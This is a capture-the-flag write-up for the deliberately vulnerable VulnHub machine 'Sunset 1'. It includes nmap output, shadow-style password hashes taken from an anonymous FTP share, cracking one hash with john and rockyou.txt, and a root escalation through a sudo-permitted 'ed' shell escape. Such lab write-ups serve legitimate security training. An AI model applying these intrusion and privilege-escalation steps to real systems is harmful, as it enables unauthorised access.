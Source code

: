 # Sunset 1

https://www.vulnhub.com/entry/sunset-1,339/

## netdiscover to find the vm, nmap

A bit tricky, since I run a lot of things on my home network, and the machine didn't leap out at me. I got the ips and then started nmapping them to find the target.

Ultimately the machine netdiscover identified as `PCS Systemtechnik GmbH` was the correct one. A `nmap -p-` identified only 21 and 22 open, with an intense scan revealing:

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     pyftpdlib 1.5.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--   1 root     root         1062 Jul 29  2019 backup
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 192.168.1.153:21
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10 (protocol 2.0)
| ssh-hostkey: 
|   2048 71:bd:fa:c5:8c:88:7c:22:14:c4:20:03:32:36:05:d6 (RSA)
|   256 35:92:8e:16:43:0c:39:88:8e:83:0d:e2:2c:a4:65:91 (ECDSA)
|_  256 45:c5:40:14:49:cf:80:3c:41:4f:bb:22:6c:80:1e:fe (ED25519)
```

## Anonymous FTP backup

Connecting to the FTP endpoint, I found a file `backup`. Its contents look like the contents of a shadow file:

```
CREDENTIALS:                                                                                                                                                                                                       
office:$6$$9ZYTy.VI0M7cG9tVcPl.QZZi2XHOUZ9hLsiCr/avWTajSPHqws7.75I9ZjP4HwLN3Gvio5To4gjBdeDGzhq.X.                                                                                                                  
datacenter:$6$$3QW/J4OlV3naFDbhuksxRXLrkR6iKo4gh.Zx1RfZC2OINKMiJ/6Ffyl33OFtBvCI7S4N1b8vlDylF2hG2N0NN/                                                                                                              
sky:$6$$Ny8IwgIPYq5pHGZqyIXmoVRRmWydH7u2JbaTo.H2kNG7hFtR.pZb94.HjeTK1MLyBxw8PUeyzJszcwfH0qepG0                                                                                                                     
sunset:$6$406THujdibTNu./R$NzquK0QRsbAUUSrHcpR2QrrlU3fA/SJo7sPDPbP3xcCR/lpbgMXS67Y27KtgLZAcJq9KZpEKEqBHFLzFSZ9bo/
space:$6$$4NccGQWPfiyfGKHgyhJBgiadOlP/FM4.Qwl1yIWP28ABx.YuOsiRaiKKU.4A1HKs9XLXtq8qFuC3W6SCE4Ltx/  
```

## Cracking sunset

I opened the above file and deleted all but sunset's hash, then used john with rockyou.txt to get the password `cheer14`. This worked when ssh'ing onto the machine, and in their home dir was `user.txt` containing `5b5b8e9b01ef27a1cc0a2d5fa87d7190`, which meant nothing to me (might be a red herring).

Running `sudo -l` revealed sunset also had access to /usr/bin/ed, an ancient text editor (one line at a time) in linux. This tool runs as root (when run with sudo) and can execute commands. So, as sunset, `sudo /usr/bin/ed`, then use `!/bin/sh` to start a shell. Finally, cd to `/root` and cat the flag.

/root/flag.txt: `25d7ce0ee3cbf71efbac61f85d0c14fe`